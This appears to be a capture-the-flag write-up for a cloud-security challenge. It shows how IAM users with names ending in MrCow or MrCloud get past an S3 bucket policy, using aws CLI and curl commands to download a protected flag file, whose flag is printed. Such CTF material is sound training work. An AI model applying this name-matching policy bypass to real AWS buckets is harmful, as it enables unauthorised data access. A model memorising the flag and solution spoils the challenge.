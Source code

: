 
## [Cloud Security] Iam Mr.Cow and Mr.Cloud

```
Iam Mr. Cow or Mr. Cloud?

- Author: Mr.Cow
- 498 Points (9 Solves)
- ★★★★


Out on the edge of the pasture, a ladder climbs into the sky. At the top sits a quiet vault of silver—guarded by two peculiar doormen:

Mr. Cow, who lets you peek inside but never touch.

Mr. Cloud, who lets you take exactly one thing—if he believes who you are.

A tiny storefront page is all you’re given. It looks harmless, but it reflects the sky and whispers just enough about the rules above. In this realm, names matter more than keys. Those who shape their identity with care will earn a glance… and, with the right guise, the right to claim the treasure.
```


Out on the edge of the pasture, a ladder climbs into the sky. At the top sits a quiet vault of silver—guarded by two peculiar doormen:

Mr. Cow, who lets you peek inside but never touch.

Mr. Cloud, who lets you take exactly one thing—if he believes who you are.

A tiny storefront page is all you’re given. It looks harmless, but it reflects the sky and whispers just enough about the rules above. In this realm, names matter more than keys. Those who shape their identity with care will earn a glance… and, with the right guise, the right to claim the treasure.

---


## Hints:
1. PS: You’ll want your own AWS playground for this—signing up for a free account (no charges for basic CLI calls) is enough. Once you’re there, remember that aws s3api get-bucket-policy is often the first polite knock on a guarded door.

2. The vault responds to IAM principals whose ARN names end in MrCow or MrCloud; tailor your profile suffix and each guardian reveals their part.

---

# Observations:

When downloading the zip, we are greeted with a index.html file. Opening it in a browser, shows a simple webpage with an SVG image.


![image](/cuhk25ctf/iam_mr_cow_or_mr_cloud/cowcloud.svg)

[index.html](/cuhk25ctf/iam_mr_cow_or_mr_cloud/index.html)

Aside from that, the title of this challenge starts with IAM, which is a service in AWS for Identity and Access Management. This hints that we might be dealing with access permissions.

---

# Solution:

## Step 1: Inspection

The SVG image has s3://assets/ written on it. This should be referring to the S3 bucket of AWS.

Inspecting the page source, we see that the <img> tag has a src attribute with the value of <img src=[https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg](https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg) />.

The URL is pointing to an S3 bucket named mr-cow-or-mr-cloud-secret-20250916-a1 in the us-east-1 region.

## Step 2: Accessing the S3 Bucket

We can first attempt to publicly access this file:

```
curl "https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg"
```

From the results, we can see we can publicly access it.

```
<?xml version="1.0" encoding="UTF-8"?>
<svg width="640" height="360" viewBox="0 0 640 360" xmlns="http://www.w3.org/2000/svg">
  <defs>
    ... (etc) ... 
```

We now try accessing other files such as flag.txt:
```
curl "https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/flag.txt"
```

We get an Access Denied error. Rip :(
```
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message><RequestId>N94ZHM5K3BDNM09Q</RequestId><HostId>93pEPa99upHuWWYa6sTij+oR/z0Lwq1DDnCyWyKTnKwshx1g+6TyjuN8nPi9V31h8g9UNqWYG8o=</HostId></Error>
```

This means other files require permissions to access.

## Step 3: Understanding the Bucket Policy
Since the hints suggest we need an IAM profile of our own, we can make an account on AWS and create two profiles with the suffix of MrCow or MrCloud.

Any IAM profile name is fine, as long as it ends with MrCow and MrCloud respectively.

For my case, I used TestMrCow and TestMrCloud.


```sh
# Configure TestMrCow profile
aws configure set aws_access_key_id <redacted> --profile TestMrCow
aws configure set aws_secret_access_key <redacted> --profile TestMrCow
aws configure set region us-east-1 --profile TestMrCow

# Configure TestMrCloud profile
aws configure set aws_access_key_id <redacted> --profile TestMrCloud
aws configure set aws_secret_access_key <redacted> --profile TestMrCloud
aws configure set region us-east-1 --profile TestMrCloud
```

To confirm that we are signed in:

```sh
aws sts get-caller-identity --profile TestMrCow
aws sts get-caller-identity --profile TestMrCloud
```

```
{
    "UserId": "AIDATJS2C3YDDIAQO4SOC",
    "Account": "226748456454",
    "Arn": "arn:aws:iam::226748456454:user/TestMrCow"     
}
{
    "UserId": "AIDATJS2C3YDJJ6L2GSSN",
    "Account": "226748456454",
    "Arn": "arn:aws:iam::226748456454:user/TestMrCloud"   
}
```

Now, let's test the access permissions of both profiles.

```sh
aws s3 ls s3://mr-cow-or-mr-cloud-secret-20250916-a1/ --profile TestMrCow
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

We get Access Denied.

Now, let's try the other profile.

```sh
aws s3 ls s3://mr-cow-or-mr-cloud-secret-20250916-a1/ --profile TestMrCloud
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

We also get Access Denied.

The hint said we should try to get the bucket policy to understand the access rules.

```sh
aws s3api get-bucket-policy --bucket mr-cow-or-mr-cloud-secret-20250916-a1 --profile TestMrCow
aws s3api get-bucket-policy --bucket mr-cow-or-mr-cloud-secret-20250916-a1 --profile TestMrCloud
```

```
An error occurred (AccessDenied) when calling the GetBucketPolicy operation: Access Denied
An error occurred (MethodNotAllowed) when calling the GetBucketPolicy operation: The specified method is not allowed against this resource.
```

Weird! For the TestMrCow profile, we get Access Denied, but for the TestMrCloud profile, we get MethodNotAllowed.

This means that the bucket policy is denying access to TestMrCow, but allowing TestMrCloud to access it.

Let's try to access the objects directly instead of listing them.

```sh
aws s3 cp s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt ./flag.txt --profile TestMrCow
aws s3 cp s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt ./flag.txt --profile TestMrCloud
```

```
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
Completed 42 Bytes/42 Bytes (43 Bytes/s) with 1 file(s) redownload: s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt to ./flag.txt
```

Oh! We managed to download the flag.txt file!

```
cuhk25ctf{m00n_m45k5_h1d3_th3_cl0ud_g4t3s}
```

*Fun fact, this challenge is solvable by using Github Copilot Agent Mode XD*